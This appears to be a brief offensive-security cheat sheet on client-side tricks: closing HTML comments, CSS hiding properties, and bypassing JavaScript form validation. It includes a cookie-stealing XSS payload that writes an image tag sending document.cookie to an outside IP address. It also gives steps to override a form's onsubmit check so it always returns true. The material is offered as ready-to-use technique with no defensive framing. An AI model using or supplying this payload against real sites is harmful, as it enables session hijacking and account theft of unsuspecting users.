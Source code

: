 # Client Side


## HTML Comment
- ```--!>```

## CSS Hidden Element
- ```display: none;```
- ```display: hidden;```

## Bypass JS Control
- Stealing Cookie: ```document.write(‘<img src=”http://192.168.8.105/?’ + document.cookie + ‘“ />’);```
- Return true
  - Go to page source code
  - Find validation script and copy it 
    - search for ```onsubmit``` 
  - Enable pasting
    - Browser => Console => allow pasting
  - remove ```if clause``` part and paste
```Javascript
function webform_onsubmit () {
return true;
}

```
